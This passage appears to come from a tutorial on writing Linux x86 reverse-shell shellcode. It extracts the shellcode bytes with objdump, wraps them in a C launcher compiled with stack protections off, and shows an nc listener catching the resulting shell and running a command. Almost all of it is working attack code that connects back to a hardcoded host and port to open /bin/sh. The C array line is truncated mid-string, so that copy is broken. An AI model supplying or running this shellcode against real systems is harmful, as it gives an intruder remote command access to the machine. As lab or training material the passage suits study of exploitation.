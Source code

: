 Extract bytes:
 ```shell
 objdump -d ./reverse_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x89\xfb\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80"
 ```
 Put it into our shellcode wrapper:
 ```c
 #include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x43\x68\xc0\xa8\xf7\x83\x66\x68\x11\x5c\x66\x53\x43\x89\xe1\x6a\x10\x51\x57\x89$

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}
 ```
 Compile:
 ```shell
 gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
 ```
 Now it should be good to run! Start your listener, then run your reverse_shell:
 ```shell
 ./shellcode
Shellcode Length:  79
 ```
 Listen for connection and issue command:
 ```shell
 nc -lvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [192.168.247.131] port 4444 [tcp/*] accepted (family 2, sport 45306)
who
pwoer    tty7         Dec 11 10:13 (:0)
 ```
